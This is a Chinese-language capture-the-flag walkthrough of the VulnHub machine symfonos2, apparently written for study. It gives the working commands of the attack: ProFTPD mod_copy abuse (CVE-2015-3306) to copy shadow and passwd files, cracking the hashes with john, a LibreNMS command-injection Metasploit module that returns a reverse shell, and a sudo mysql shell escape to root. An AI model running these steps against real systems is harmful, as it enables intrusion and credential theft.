 # symfonos2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-2,331/

**Description**

OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.

**知识点**
- smb 信息探测
- CVE-2015-3306
- CVE-2018-20434
- shadow 密码爆破

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.149` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.149
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/2.png)

21、22、80、139、445

怎么又有 smb,枚举下 smb 试试
```bash
enum4linux 192.168.141.149
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/3.png)

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/4.png)

找到一个 `/anonymous` 文件夹和 2个用户,进去看看文件
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
cd backups\
ls
get log.txt
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/5.png)

查看下 log.txt 可以发现很多线索

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/6.png)

开头告诉你 shadow 内容在 backups 目录下,然后后面是 smb 的配置,有个密码

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/7.png)

然后开始看 ftp 的配置,配置文件说明了是 ProFTPD 程序，还告诉你有个 aeolus 账号

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/8.png)

想起来之前 nmap 扫描 FTP 得到的版本号是 1.3.5,也许可以找找漏洞
```bash
searchsploit -w proftpd 1.3.5
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/9.png)

这3个都一样,漏洞编号为 CVE-2015-3306,但是这个漏洞只是可以复制文件,并不能直接进行命令执行,并且需要知道目标路径

---

# 中期-漏洞利用

这里我们从 log.txt 中可以得知 anonymous 用户的实际路径为 `/home/aeolus/share`,加上开头告诉你 shadow 文件在 backup 目录下,接下来就尝试将 backup目录下的 shadow 复制到 anonymous 用户目录下

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/10.png)

```bash
ftp 192.168.141.149
site cpfr /var/backups/shadow.bak
site cpto /home/aeolus/share/shadow.txt
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/11.png)

成功了,上 smb 下载下来
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
get shadow.txt
exit
cat shadow.txt
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/12.png)

下面用同样的方式下载 passwd 文件
```bash
ftp 192.168.141.149
site cpfr /etc/passwd
site cpto /home/aeolus/share/passwd.txt

smbclient //192.168.141.149/anonymous -U % -N
get passwd.txt
exit

mkdir /root/.john
cp passwd.txt /root/.john
cp shadow.txt /root/.john
cd /root/.john
unshadow passwd.txt shadow.txt > hash.txt
cat hash.txt
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/13.png)

使用 john 开始跑 hash
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/14.png)

只跑出 aeolus 一个用户的密码,使用这个凭证成功 SSH 上去
```
aeolus  sergioteamo
```

找找提权的可能
```bash
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/15.png)

没成功,看看 web 方面

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/16.png)

又是啥都没有,直接翻 web 配置文件看看
```bash
cd /etc/apache2
cat apache2.conf
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/17.png)

看看这个端口监听文件
```bash
cat ports.conf
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/18.png)

端口 8080 有个无法从外部访问的网站,端口转发一下
```bash
socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
```

现在 8080 可以通过 5000 端口访问

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/19.png)

找找有没有可利用的漏洞
```bash
searchsploit -w librenms
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/20.png)

看了下,需要认证,结果用 aeolus  sergioteamo 可以登上去,那就用 msf 模块试试

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/21.png)

```bash
msfconsole
search librenms
use exploit/linux/http/librenms_addhost_cmd_inject
set RHOST 192.168.141.149
set LHOST 192.168.141.134
set PORT 5000
set USERNAME aeolus
set PASSWORD sergioteamo
run
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/22.png)

---

# 后期-提权

寻找提权利用点
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/23.png)

可以在 gtfobin 找到 mysql 提权的方法 https://gtfobins.github.io/gtfobins/mysql/
```
sudo mysql -e '\! /bin/sh'
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/24.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
